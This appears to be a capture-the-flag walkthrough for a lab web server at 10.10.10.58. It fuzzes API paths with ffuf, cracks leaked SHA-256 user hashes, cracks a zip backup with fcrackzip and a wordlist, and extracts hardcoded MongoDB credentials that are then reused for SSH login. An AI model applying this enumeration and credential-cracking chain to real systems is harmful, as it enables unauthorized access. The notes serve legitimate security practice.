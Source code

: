# Web Server on 3000
## Fuzzing files/api

### Burp proxy
![[Pasted image 20211106200614.png]]

### fuff
```bash
$ ffuf -u http://10.10.10.58:3000/api/FUZZ -w /opt/SecLists/Discovery/Web-Content/raft-small-directories.txt -c -fs 3861

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.58:3000/api/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/raft-small-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 3861
________________________________________________

users                   [Status: 200, Size: 611, Words: 1, Lines: 1]
Users                   [Status: 200, Size: 611, Words: 1, Lines: 1]
session                 [Status: 200, Size: 23, Words: 1, Lines: 1]
Session                 [Status: 200, Size: 23, Words: 1, Lines: 1]
```

* Found  users and hash in [users](http://10.10.10.58:3000/api/users)
![[Pasted image 20211106200855.png]]


https://crackstation.net/
Type: sha256
* Creds
```bash
myP14ceAdm1nAcc0uNT:dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af:manchester
tom:f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240:spongebob
mark:de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73:snowflake
rastating:5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0:Not found.
```

![[Pasted image 20211106202421.png]]


### Myplace.backup
```bash
$ base64 -d myplace.backup > myplace-base64.backup

$ fcrackzip -D -p /usr/share/wordlists/rockyou.txt myplace-base64.backup                                                                                                             
possible pw found: magicword ()
```

* Creds mark:5AYRft73VtFpc84k
*  Can use this creds to logon on ssh
```bash
less app.js
...[snip]...

const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
const backup_key  = '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474';

```


```bash
ssh mark@10.10.10.58
```

![[Pasted image 20211106204951.png]]


